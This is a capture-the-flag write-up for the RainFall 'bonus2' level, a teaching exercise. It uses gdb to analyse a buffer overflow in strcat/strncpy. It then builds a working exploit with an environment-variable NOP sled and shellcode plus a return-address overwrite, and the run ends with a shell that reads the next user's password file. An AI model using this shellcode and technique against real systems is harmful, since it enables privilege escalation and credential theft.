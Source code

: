 # Bonus

- Once logged in, you will see a binary `bonus2`

```
[???]$ ssh localhost -p 4242 -l bonus2
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on localhost:4242
bonus2@localhost's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/bonus2/bonus2
bonus2@RainFall:~$
bonus2@RainFall:~$ ls
bonus2
bonus2@RainFall:~$
```

let's check what the binary does

```
bonus2@RainFall:~$ ./bonus2
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaa bbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaa
bonus2@RainFall:~$
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaa
bonus2@RainFall:~$ ./bonus2 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Hello aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
Segmentation fault (core dumped)
bonus2@RainFall:~$
```

let's take a look at the binary by using `gdb`

```
gdb-peda$ info variables
All defined variables:

Non-debugging symbols:
[...]
0x08049988  language

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048484  greetuser
0x08048529  main
0x08048640  __libc_csu_init
0x080486b0  __libc_csu_fini
0x080486b2  __i686.get_pc_thunk.bx
0x080486c0  __do_global_ctors_aux
0x080486ec  _fini
```

Since the program uses the function uses `strcat`, `strncpy`, it may be vulnerbable for buffer overflow
```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x08048318  _init
0x08048360  memcmp
0x08048360  memcmp@plt
0x08048370  strcat
0x08048370  strcat@plt
[...]
0x080483c0  strncpy
0x080483c0  strncpy@plt
[...]
```

we at least know there is a global variable called language, and another function `greetuser` exists.

by decompiling the source, if argc value is not equal to 3, the program will quit, and with the meaning of `argc == 3`, is the `envp` may be used in the function.

```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x08048529 <+0>:	push   ebp
   0x0804852a <+1>:	mov    ebp,esp
   0x0804852c <+3>:	push   edi
   0x0804852d <+4>:	push   esi
   0x0804852e <+5>:	push   ebx
   0x0804852f <+6>:	and    esp,0xfffffff0
   0x08048532 <+9>:	sub    esp,0xa0
   0x08048538 <+15>:	cmp    DWORD PTR [ebp+0x8],0x3
   0x0804853c <+19>:	je     0x8048548 <main+31>			; if argc != 3, then
   0x0804853e <+21>:	mov    eax,0x1
   0x08048543 <+26>:	jmp    0x8048630 <main+263>			; jump to main+263
```

With analysis of the code, the program takes 2 arguments, and will be stored into a buffer of 40 bytes, and 32 bytes in order. the program will also check env variable of `LANG`, and set the global variable into either 1 (if LANG is equal to fi) or 2 (if LANG is equal to 2)

the output will be determined by the global variable LANG, will greet the message in English, Finnish, and dutch, then print with username. Because of the greet message `hello ` is not long enough to overrite the eip, `fi` or `nl` needs to be used in order to fill the off.

```
0x41366141 in ?? ()
gdb-peda$ Hyv piv AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
[offset: 18]

0x38614137 in ?? ()
gdb-peda$
[offset: 23]
```

We know using nl, the offset is 23, so let's try using this, and all we need to do is put shellcode in the env variable, find the address for the shellcode, and pass them into the payload to overwrite. So the payload will consist like this

```
export SHELLCODE=`python -c 'print("\x90" * 100 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80")'`

bonus2@RainFall:/tmp$ gcc -m32 getenv.c -o getenv					# using getenv.c in Resources
bonus2@RainFall:/tmp$ ./getenv
env address: 0xbffff84e #### THIS WILL CHANGE ####
```

```
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "A" * 23 + address of the shellcode env. variable')

---
bonus2@RainFall:~$ /tmp/getenv
env address: 0xbffff854
---
./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "\x90" * 23 + "\x54\xf8\xff\xbf"')

```

```
bonus2@RainFall:~$ export LANG=nl
bonus2@RainFall:~$ /tmp/getenv
env address: 0xbffff851
bonus2@RainFall:~$ ./bonus2 $(python -c 'print "A" * 40') $(python -c 'print "B" * 23 + "\x51\xf8\xff\xbf"')
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBQ���
$ whoami
bonus3
$ cat /home/user/$(whoami)/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$
```
